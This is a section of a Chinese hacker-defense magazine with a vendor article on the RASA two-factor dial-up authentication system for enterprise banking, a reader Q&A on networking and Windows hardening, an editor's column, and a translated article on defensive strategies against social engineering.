

### 远程拨号安全认证服务系统

在企业银行系统中的应用

RASA（Remote Access Secure Authentication）

摘自《安全2000》  
hackers.home.chinaren.net/

### 产品基本介绍

身份认证作为网络安全、信息资源访问控制的第一道门槛，在网络信息系统中举足轻重，但传统的身份认证是采用用户名＋口令的方式（PAP—Password Authentication Protocol）来认证用户，这是一种标准的基于单因子的身份认证方式。这种模式的不安全因素随着网络技术的发展而愈显突出，其具体表现为口令易被猜测、口令可从网上截获、口令在服务器的存放不安全。

针对传统 PAP 在安全方面的弱点，全新的基于 CHAP 协议和 PKI 技术并结合硬件加密产品 Skey 的强双因子身份认证系统，解决了口令被猜测、口令被截获、用户隐私在服务器端被泄密的可能性。远程拨号安全认证服务系统（Gefon RASA）的安全性在目前国内外产品中具有明显的优势。RASA 可以广泛地应用到各种网络应用系统中。结合我公司的产品，我们和某银行共同推出了企业网上银行业务系统。RASA 在该系统中的应用如下述。

### RASA 在企业银行业务系统中的应用

#### 1. RASA 结构介绍

RASA 系统的基本组成如图 1 所示：



- （1）RASA 客户：提供远程拨号客户端所应具有的所有功能。其认证机制为格方自行开发的同时具有 CHAP 和 PKCS 的双重优点；同时加入了另一因子 Skey，因此更安全可靠。
- （2）RASA 代理：提供 NT 远程访问服务，接受客户端远程拨号连接，以我们自己的认证机制为基础替换了 NT 原有的安全主机模块，并新加载了管理模块，以协助完成强双因子的身份认证。
- （3）RASA 服务器：对拨号用户的身份进行认证和实时监控。该服务程序不直接接受远程客户的连接，而是通过代理同远程客户发生联系。因远程客户和主域控制器的联系要通过代理，因此一个有增强安全性的代理（添加防火墙）可以提高系统的整体安全性。

#### 2. 企业网络银行的情况

电子与通讯技术的发展使传统银行的经营环境发生了巨大的变化，人们对银行的服务质量、办事效率提出了更高的要求。现代商业银行只有利用最新科技成果包装、改造传统金融工具，利用最新科技成果开拓、创造新的金融服务手段，才能在市场竞争中保持有利地位。

利用 Internet 技术建立网上银行可以带来诸多的好处，新兴银行无不想占领这个至高点以延伸服务，提高效率。一般采用新技术的投资较小，操作性很强。

一般网上企业银行系统具有几项功能：

- 1. 银行介绍；
- 2. 支票的转账、现金的预约存取、电汇等；
- 3. 账户余额的查询及对账单的查询；
- 4. 银行信息的发布，如利率、重要通告等；
- 5. 市场信息；
- 6. 电子意见箱。

可以根据需要任意扩展功能。而企业银行的业务可以充分利用现有银行系统的内部专网。

#### 3. RASA 在某支行企业银行系统中的网络结构

根据中国的国情，目前，我们国家各大银行在全国已基本形成了自己的网络系统，出于对安全的考虑，银行系统的网络和互联网是分离的。RASA 系统能够在保持原有网络不变的情况下，开展全国性的网上企业银行系统。

下面是利用 RASA 安全认证系统和某银行网上银行系统安全认证解决方案。该系统的系统结构如图 2 所示：





企业银行客户可以通过安装有 RASA 客户端和一部调制解调器的 Windows 9X 平台连接当地的 RASA 服务器，通过身份认证后即可享受银行提供的各种便利服务。

#### 4. RASA 在全国某银行中建立企业银行的网络结构

作为全国的整体解决方案，可以利用 RASA 系统的远程拨号技术特性，以及其极强的安全机制，与现有银行系统无缝结合，并在整个银行系统进行推广使用。

我们的方案是在每个支行放置 RASA 服务器，其身份认证采用集中式的管理、分布式认证。企业用户不论身在何处，都可以通过安装有 RASA 客户端和一部调制解调器的 Windows 9X 平台连接当地的 RASA 服务器，从而享受异地银行的本地化服务——即全国联网的服务，不受时空的限制，十分便利和高效。银行可以在这个系统的保证下完成传统和新型的金融业务。

该系统的系统结构图如图 3 所示。

- 说明：
- 1. 图中的 RASA 服务器由图 1 中 Modem 池、RASA 代理、RASA 服务器组成。
- 2. RASA 代理和 RASA 服务器的运行平台为 Windows NT 4.0，RASA 客户端的运行平台为 Windows 9X。
- 3. 银行内部网一般由 DDN 组成。

如果各地的用户账户数据库是分布式的，也可以通过各 RASA 服务器之间查询完成身份认证过程。

这套 RASA 系统解决了信息安全中的身份认证问题。因为使用的是封闭的专网以及 PSTN，因此不和 Internet 相联，安全性很高。对于传输数据可以采用 Gefon VPSec 威塞盾来得到很好的解决。

由此可见，该系统可以很好地和银行现有系统结合，应用前景广阔，而且实施特别简便，能带来较大的社会及经济效益。

### RASA 远程拨号认证

- 生产厂家：格方公司

功能特点：

- 认证过程用户秘密信息不在网上传输，杜绝了网上监听的威胁。
- 秘密信息存于 SKey，由用户自己保存；在服务器端作了加密存储，即使超级用户亦无法获知用户验证信息，有效防止内贼，保护用户隐私权。
- 把 CHAP 协议和公钥加密结合，使认证更加可靠、安全。采用 SKey 作存储介质，使信息存取更安全、便利、快捷。
- 应用 RASA 适用于所有通过远程拨号登录访问网络资源应用中的安全身份认证，如 ISP 对上网用户的账号保护、家庭炒股等。
- 运行平台：Linux、Microsoft Windows NT、SCO UNIX。

在 Bright 的要求下，编辑部的空调终于开了，驱除了北京燥热天气的烦恼，Bright 和众编辑们干劲十足，因为随着工作量的加大，朋友们又给编辑部下了一道通知：黑防能不能提前上市？这不，大家一个个忙得不可开交，Bright 率先立下军令状——保质保量在 6 月 20 号发行《黑客防线》。其实 Bright 并不是在吹牛，他还有一招杀手锏——在线编辑部。那么在线编辑部到底怎么样？做出了什么成绩，Bright 聆听大家来发表意见。

- bright@hacker.com.cn
- hacker@hacker.com.cn
- answer@hacker.com.cn

## Question: Cisco 公司的 PIX 防火墙与实现传统路由选择算法的路由器相比有何特点？

Answer: 首先，从功能上讲，PIX 防火墙并不等同于路由器。事实上，路由器自身不具备安全性，这是因为路由器的软件使用的是动态路由选择算法，并对外不断广播自身的链路状态，这样网络上所有节点都可以获得其网络地址，从而使路由器有被攻击的可能。与此相比，PIX 防火墙并不对外广播其链路状态，它使用静态地址映射与外界建立联系，因而大大减少了本身遭受攻击的风险。其次，PIX 防火墙仅仅是在其内部网络段上使用一个简化的 RIP 进行动态路由选择运算，实现内部网络的路由选择。

## Question: 什么是微软认证专家？微软考试是不是全部是英文？英文和其它语种的考试有什么不同？

Answer: 微软认证专家（Microsoft Certified Professionals, MCP）是全球公认的计算机软件高级人才认证。MCP 认证考试是微软推出的高级计算机技术人员认证考试，由比尔·盖茨签发的 MCP 证书在全球九十个国家均可得到承认。MCP 证书代表着企业及个人技术实力，MCP 证书的拥有者在全球各地均可享受高就业机会、高薪、相关学业免学分的待遇，甚至在北美的一些国家可以作为外来移民的技术评估标准。目前国内的 MCP 认证有 6 类 9 种，中科院软件所微软授权高级技术培训中心向大家提供所有认证课程培训。

MCP 证书分为：

- 微软认证产品专家（MCP, Microsoft Certified Professional）
- 微软认证产品专家+I（MCP+I, Microsoft Certified Professional+Internet）
- 微软认证产品专家+SB（MCP+SB, Microsoft Certified Professional+Site Building）
- 微软认证系统工程师（MCSE, Microsoft Certified System Engineer）
- 微软认证系统工程师+I（MCSE+I, Microsoft Certified System Engineer+Internet）
- 微软认证软件开发专家（MCSD, Microsoft Certified Soft Developer）
- 微软认证数据库管理员（MCDBA, Microsoft Certified Professional Database Administrator）
- 微软认证教员（MCT, Microsoft Certified Professional Trainer）
- 微软认证销售专家（MSS, Microsoft Sales Specialist）

MCP 考试的语种一般采用英文，同时微软为了增加它的认证的国际性，也推出了一些非英语语种的考试科目，对于英语非母语的考试者时间可延长三分之一左右，但是考试的题量和难度均有增加。

## Question: 编辑好，请问 ISDN 与普通模拟线路有何区别？

Answer: 56K 模拟线路是异步通讯，有起始位和终止位，所以传输过程中多两个位，降低了有效传输效率。64K 数字线路是同步通讯，在数据传输信道之外，借助时钟表示开始和结束，充分利用传输线路。另外，电话线路容易引起噪音并受距离影响。

## Question: 我们最近上了宽带，我的机器作为服务器没有开任何防火墙。就是当天金山毒霸不能用了，提示初始化失败，然后又重新装了一遍，升级更新，依然还是不能用。金山网镖居然被删掉了，刚刚装好就不能用，程序本身被删掉了。请问这是什么行为啊？我记得曾经收到一封莫名其妙的邮件，一点击就自动运行我就立马将其删掉了。会是将木马隐藏其中吧？

Answer：你的问题是近期一个典型的问题，虽然过去黑防曾经做过类似问题的解答，但还是觉得应该再说一次，希望大家注意！一种情况是你中了木马，还有一种情况是中了求职信蠕虫病毒，由于关联感染了一些程序的执行文件，因此程序会无法运行。建议你在安全模式下用木马克星查杀，再用金山毒霸的求职信病毒专杀工具查杀，重新启动以后再次查杀，并且以后收到不明邮件，特别是带有附件的邮件一定不要执行。

## Question：在 Win2000 里面，如何让其他的机器 ping 自己的时候不响应，别给我说用软件。好像可以改注册表，就不知道咋弄的？

Answer：可以实现。关闭 ICMP 回应。

- 1. 防止 ICMP 重定向报文的攻击

```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters
EnableICMPRedirects REG_DWORD 0x0（默认值为 0x1）
```

说明：该参数控制 Windows 2000 是否会改变其路由表以响应网络设备（如路由器）发送给它的 ICMP 重定向消息，有时会被利用来干坏事。Win2000 中默认值为 1，表示响应 ICMP 重定向报文。

- 2. 禁止响应 ICMP 路由通告报文

```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters\Interfaces\interface
PerformRouterDiscovery REG_DWORD 0x0（默认值为 0x2）
```

说明：“ICMP 路由通告”功能可造成他人计算机的网络连接异常、数据被窃听、计算机被用于流量攻击等严重后果，此问题曾导致校园网某些局域网大面积、长时间的网络异常，因此建议关闭响应 ICMP 路由通告报文。Win2000 中默认值为 2，表示当 DHCP 发送路由器发现选项时启用。

- 3. 防止 SYN 洪水攻击

```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters
SynAttackProtect REG_DWORD 0x2（默认值为 0x0）
```

说明：SYN 攻击保护包括减少 SYN-ACK 重新传输次数，以减少分配资源所保留的时间。路由缓存项资源分配延迟，直到建立连接为止。如果 SynAttackProtect=2，则 AFD 的连接指示一直延迟到三次握手完成为止。注意，仅在 TcpMaxHalfOpen 和 TcpMaxHalfOpenRetried 设置超出范围时，保护机制才会采取措施。

### Question：各位大哥，请教一个关于局域网间传文件的问题！我想和一个处在另一个局域网中的朋友传文件，起初想用 QQ 传，不知为何传不了，可能是因为处在不同防火墙中吧；后来又用了 filegateway，又提示说建立不了连接。我用的是 WinXP，对方是 Win98，XP 自带的防火墙关了也不行；究竟怎样才能传呢，请教教我吧，谢谢啦！

Answer：造成这个问题的根本是 Win2k 和 Win9x 的验证方式不同，你要通过加用户的方式加以解决。比如你在 98 中登录的用户名是 wuqin，那么你在 Win2k 中建立一个用户名叫 wuqin，可以为他设置密码，然后就可以登录了，此时你会被要求输入一个 ipc$ 的密码，那么就输入这个 wuqin 账户的密码。在 Win2k 中可以为这个 wuqin 账户设置权限，但是这个用户权限可能会与 NTFS 权限冲突（FAT 不存在）。（网站选摘）

### Question：请问各位高手：以太网包的包头和尾各是多少字节（或位）？

Answer：通过以太网传输的比特流称为帧（frame）。典型以太网帧首部的字节长度为 14 字节，帧尾部字节长度为 4 个字节。以太网数据帧的物理特性是其长度必须在 46-1500 字节之间。可以参看《TCP/IP 详解》卷一。（网站选摘）

## Question：为什么我用 Windows98SE 和 Windows2000 的共享上网连接老出问题？

Answer：Windows98SE 和 Windows2000 的共享上网（ICS）对于 ADSL 支持有很大问题，特别是使用 PPPoE 虚拟拨号的用户问题更多，目前共享上网推荐如下配置方案：WinPoET 2.1b（RasPPPoE 0.96）+Sygate 4.0 Office Network。（目前黑防采用这种上网方案）。

### 我将 WINXP 转成 NTFS 格式，请问怎样将它转换回 FAT32 格式呀？

Answer：可以借助 PowerQuest 公司的 Partition Magic 软件，作为最专业的硬盘分区管理工具，它能在 FAT32 和 NTFS 分区间方便地实现相互转换，且不会丢失资料。


### 今天“我”开心

看到这期“黑防”第一个感觉就是开心、兴奋，我想这是朋友们的第一个感觉。其实作为黑防的编辑我也一样开心，其原因如下：

### 工作篇

“黑防”的正刊不容置疑是大家所喜欢和期待的，专业的知识，独家的报道，精彩的文章，系统的描述，第一手的信息仍是我们的追求，是编辑和作者的心血结晶。

“黑防”的赠品同样还是朋友们的福音，通俗的文章，超值的享受，是我们给菜鸟们交流、提高、进步的良师，是我们作者的无私奉献，是他们长时间实践经验的积累。

正刊与赠品内容的划分是我们尝试的成功，也是我们执行读者建议的一种举措，用读者的话来说：是专业版和菜鸟版的划分，使大家各取所需，使“黑防”更加物有所值。

期刊的提前上市也是众望所归，我们在完成内容扩充调整以后紧跟着将出版周期提前，虽然工作量加大，负荷比较重，但是我们没有偷工减料，我相信读者看到的还是同样精彩的内容。

### 生活篇

不知道朋友你是否已经看到《生命中的简单》一文，如果还没有看到不妨先看一看。我在看到这篇文章时候心情波动很大，很苦涩。因为我有一位亲友、一位好友还有一位网友有着同样的不幸，或许朋友们并不相信，有这么巧合？刚巧萌儿那天在黑防，我还让她提前看了该文，谈了一些我的感受。送走萌儿没多久，我的 QQ 叫起来，第一句话就问：“你为什么叫 Bright，我喜欢阴暗。”我习惯性的“呵呵”应付了事，谁知道第二句话就是：“我刚从医院出来，我很难受，想找个人聊天。”说实话，我本身不多聊天，不知道是什么原因我放下手上的工作和她聊起来，我给她看了这篇文章，讲了和我相关的朋友的不幸，可以看出她慢慢地开心起来，记得她问过我一句：“你了解一个癌症病人的内心吗？我想除了肉体的疼痛更多的还有无边无际的恐惧。”我没有问她到底什么病，只希望她能够快乐地面对每一天，这样我也会感觉很开心，也希望黑防的朋友们互相关心，多一份爱心，一起祝福所有的朋友们永远开心！

### 广告篇

黑防网站开通已经将近半年，在线编辑部的试运行已经开始，一个月的成绩大家应该已经看到，对此我有信心——在线编辑部终将成为黑防的核心，成功地使黑防站稳脚跟，打造网络安全第一品牌。

黑防发展到现在最主要的是因为有朋友们的支持，现在黑防为了更好的发展，一直在加大原创，扩充内容，增加了很多成本，因此不可避免地要涉及广告领域，当然还要各位多多支持，在访问我们网站 www.hacker.com.cn 时候多多点击广告，这样我会更开心。:)

### 尾声

结尾之际又想起今日的中国信息安全产业展览会，有朋 tombkeeper 自远方来，虽然没能见面调侃，但听其要来绿盟发展，甚感欣慰，感言：网络安全界又将多一“牛”人。

### 社会工程学基础

文／Sarah Granger

翻译整理／Squ4L1

#### 第二部分：防守策略

在众多入侵手段频繁出现的同时，另一种人脑智能的入侵方式也随之诞生。社会工程学这个听起来陌生的概念，在当今的信息社会里显得越来越重要。在“黑客防线”的第三期中，我们曾经介绍过社会工程学的上半部分。本文是它的下半部分，结合起来看，可以使你对社会工程学有个系统的了解。

这次我们讲的是关于社会工程学系列的第二部分。在第一部分中，我们给社会工程学下的定义是：黑客对人类倾向于信任的天性进行巧妙的利用，来获得有价值的系统和系统中信息的未授权访问路径的手段。这样看来，社会工程学的基本目的和常规的黑客手段是一样的：获得系统的未授权访问路径或信息来进行犯罪、网络入侵、工业间谍活动、身份盗取，或者只是简单地对系统或网络进行的破坏。

许多个人和机构由于没有采取针对社会工程学攻击的安全策略而正在受到侵害。本文会从个人或者机构在没有采取安全防范策略而导致很大危害和有安全策略防止潜在破坏这两种情况来进行分析。我更喜欢将这些策略叫做防守策略。

##### 完全的访问

我的第一次社会工程学的尝试是在我知道这个术语所代表的含义之前。在我高中的第二和第三年中，我是我们学校飞行技术协会的学生代表。高三的时候，学校想尝试建立一个全校范围内的网络。他们进行招标并为协会的网络选择了硬件与软件，而我的工作是帮助对网络进行测试。一天，我注意到新买的机器和一些外设都没有上锁，所以我拿了一个显示器和鼠标并开始试着四处走动并观察是否有人注意到我的行动，结果并没有人注意到，为了更进一步验证，我决定把它们拿出去。我一直走到停车场然后开始往回走，将这些东西都放回了原处，完成了这次成功的试验。

也正因为这件事情改变了我对网络安全含义的看法，同时也将这次实验报告交给了校长。在今后的几年里，学校所有的计算机和外设都上了锁。我的这次经历揭示了社会工程学的攻击手段有多么简单、直接和有效。但是直到今天，我仍然在想：有多少学校的机器由于没有采取防范社会工程学攻击的安全策略而正在受到侵害？

##### 从哪里开始？从安全策略开始

社会工程学的攻击包括两个不同的方面：一是物理方面，或者说是攻击发生的地点，例如工作场所、电话上、垃圾堆里、网络上；二是心理方面，也就是进行攻击的方式，例如说服、扮演、巴结、顺从以及简单的友好行为。因此你所采取的对应策略也应当包含物理和心理两方面。对于员工的培训是相当必要的。许多公司所犯的错误是只在物理方面制定了相关的策略，但这同时也将他们自己暴露给了心理方面的攻击。因此从一开始，管理者必须明白他们在软件补丁、安全硬件以及监视工具上面的投入可能会因为没有很好的针对社会工程学以及反向社会工程学的预防措施而浪费掉。制定策略的一个好处在于避免了职员在黑客提出请求的时候做出相应反应所担负的责任。如果某人的请求与安全策略不符合的话，那么，雇员除了拒绝黑客的请求以外别无选择。

一个强大的安全策略既可能具有普遍性又有可能具有特殊性，然而我更倾向于选择折中的方案。这既加强了安全策略实施的灵活性以方便今后对策略的改进扩充，又可避免雇员防范意识的松懈。安全策略应当包括信息访问控制、账户建立、访问验证、密码更换等；永远也不许在公司的 Intranet 上使用 Modem；对设备进行隔离，物理上锁，对设备的物理访问进行 ID 验证，对文档进行有计划的销毁等。

##### 防止物理攻击

从表面上看，好的物理安全策略似乎有些小题大做，但是为了真正做到不让交易信息从机构中泄露出去，就需要在这方面加倍小心。任何出入工作场所的人员都需要出示他／她的 ID 并经过审核，不允许任何人有特权。一些文档需要锁在文件柜或者其他安全的地方（并且不能随意放置），不需要的文档可能需要粉碎掉，而不是丢进垃圾堆。同样地，所有磁性介质上面的信息必须擦除，这是因为“信息可以从格式化的磁盘或者硬盘上面获取”。垃圾堆也应当放在安全的地方并进行监视，以保证没有人能够从中找到有用的资料。

在机构内部，不用多说，所有网络上的主机（包括远程系统）都需要受到良好的保护并且设置一个复杂的密码。还有一个好的建议就是设置屏幕保护密码，并使用 PGP 或者其他的加密程序来对硬盘上的文件进行加密，实现进一步的安全。

##### 电话和 PBX

一种常见的伎俩是通过一个机构的 PBX（专用交换分机，一种机构内部的私有电话网络）来转嫁话费。黑客可以打电话到机构并开始进行冒充活动，他会要求接到外线，然后他就可以往世界的四面八方打电话并让这笔费用算在受害机构的头上。其实这种手段可以通过机构的行政法规来防范，如不许转接，对越洋电话进行控制，跟踪可疑的电话等。如果谁打电话进来说他是电话公司的技术人员需要你提供密码来进行工作的话，那么他肯定是在撒谎。根据 Verizon Communications 的说法，电话公司的技术人员可以在没有客户协助的情况下完成测试任务，因此询问密码或者其他认证信息的行为都是可疑的（Verizon）。所有的员工都应该知道这一点，以免被这种手段所迷惑。

正如在第一篇文章中所揭示的那样，咨询台是社会工程学攻击的主要目标，这主要是因为他们的工作就是提供信息来帮助他人。避免咨询台受到社会工程学攻击的最好方法就是对人员进行培训。咨询台无论如何都不能在没有许可的情况下提供密码。（实际上，机构应当规定任何情况下都不能通过电话、电子邮件提供密码，而只能在面对面的情况下将密码告诉可信任的个人。）建议采用的其他几种提高安全性的方法是：回电话进行确认，个人 ID 号码验证以及密码验证。应当鼓励咨询台“在对某个电话产生怀疑的情况下暂时不提供帮助”。换句话来说，直接说“不”。

##### 培训，培训，再培训

对雇员进行的安全培训应当从咨询台扩展到整个机构中。根据 Naomi Fine 的说法——她是企业保密方面的专家、Pro-Tec Data 的主席以及 CEO——应当对雇员进行培训，让他们“识别认证信息，并且明确保护这些重要信息的责任”（Pro-Tec Data）。为了做到这一点，企业必须把安全作为所有工作的一部分，不论从事某种工作的雇员是否使用计算机（Harl）。机构中的每个人都应当知道认证信息的重要性，只要他们有了网络安全的责任感，最终受益的是企业本身（Stevens）。

所有的雇员都应该接受培训学习以保证认证信息的安全。让他们参与到安全策略的制定中来（Harl），让所有的新雇员了解企业的安全策略，每年开办课程让雇员了解新的信息与规范。另一个增加员工参与程度的办法是由 Ms. Fine 建议的，简单来讲就是利用每月的新闻邮件。举例来说，Pro-Tec Data 在新闻邮件中提供了真实的安全事件的案例以及如何避免这些事件发生的方法，这就让雇员在一个相对轻松的环境下提高了安全意识。根据 SANS 的说法，机构可以使用以下的东西：影碟、新闻邮件、小册子、书签、警告牌、海报、咖啡杯、笔记本、桌面装饰品、T-shirt、水果刀来提醒雇员（Arthurs），但是这样做很重要的一点是应当经常更换这些东西，否则雇员会忘记这些东西本来的作用是用来提醒他们注意安全的。

##### 识别社会工程学的攻击

很显然，要挫败攻击首先要做的就是识别攻击。Computer Security Institute 指出了几种可以识别的社会工程学攻击迹象：拒绝给出联系方式、慌张、不留下姓名、恐吓行为、小的错误（拼写错误、写错名字、问奇怪的问题），还有就是查询不应当查询的信息、“找一些与身份不符合的东西”。你应当尝试像黑客那样去思考问题。Bernz 建议人们应当像福尔摩斯故事里面所讲的去熟悉这些人的工作细节，学习如何交朋友和影响别人，多看心理学方面的书籍（他和 George Costanza 都擅长编故事）。总之，要想了解敌人，你就必须像敌人那样去思考。

企业可以通过定期的安全活动来提高安全意识；并且机构的 Intranet 可以成为这些活动中宝贵的资源，特别是在具有在线新闻邮件、E-mail 提醒、培训项目和强制定期更改密码要求等情况下。这样做最大的风险在于雇员会产生自满情绪而忽视安全。所以在企业中不断地进行提高安全意识的活动是整个防范策略的关键——一些机构甚至发给员工一些小的写有安全策略的装饰品来对员工进行安全策略提醒。

##### 如何对付社会工程学攻击

当雇员注意到有什么异常的时候，他或者她应立即对事件进行报告。还有很重要的一点是公司应当有人承担起继续关注这类事件的责任——最好是事件响应小组（IRT）的成员（如果公司有的话）。同样，该雇员也应当通知其他岗位的同事提高警惕。这样，IRT 成员或者其他担负起追踪事件的人（安全小组或者系统管理员）就可以作出适当的回应。

Kevin Mitnick 在他名为《My First RSA Conference》的文章里面指出了很有意思的一点。Mitnick 指出会议的组织者没有安排任何与社会工程学有关的内容是错误的，他说：“你可以花一大笔钱来购买这次 RSA 会议参展公司、发言者和赞助商的技术和服务，但是你的网络体系同样会受到这些老伎俩的侵害。”这点很重要。为了引起更大的重视，更多的安全机构应当在他们的产品与举行的会议中优先考虑社会工程学方面的问题。同样，机构也应当定期进行安全审查以免安全策略落后于实际需要。

下表列出了一些常见的入侵战术和防御措施：

| 风险区域 | 黑客战术 | 预防策略 |
|---|---|---|
| 办公室 | 偷看 | 不要在有其他人在场情况下键入密码（如果必须这样做，应尽快完成） |
| 电话（询问处） | 通过电话的扮演 | 应该为所有的职员都设置一个对应的 PIN，在询问处进行确认 |
| 办公室 | 在大楼中逛来逛去寻找打开的办公室 | 所有的客人都必须有人陪同 |
| 收发室 | 混入伪造的邮件 | 将邮件室上锁并保证有人看管 |
| 机房／电话亭 | 尝试进入、拿走设备，或者放置协议分析器来获取认证信息 | 将放服务器的房间和电话厅等上锁，定期对设备做一个清单 |
| 电话和 PBX | 转嫁话费 | 控制越洋以及长途电话，跟踪通话记录，拒绝转接 |
| 垃圾堆 | 翻垃圾 | 将所有的垃圾都放在安全的、有人看得到的地方，粉碎所有的重要文件，擦除磁性介质上的信息 |
| Intranet－Internet | 写一些软件放到 Intranet 或 Internet 来获取密码 | 定期地了解系统和网络的变化，对密码使用进行培训 |
| 办公室 | 盗取敏感文件 | 标出机密文件并妥善保存 |
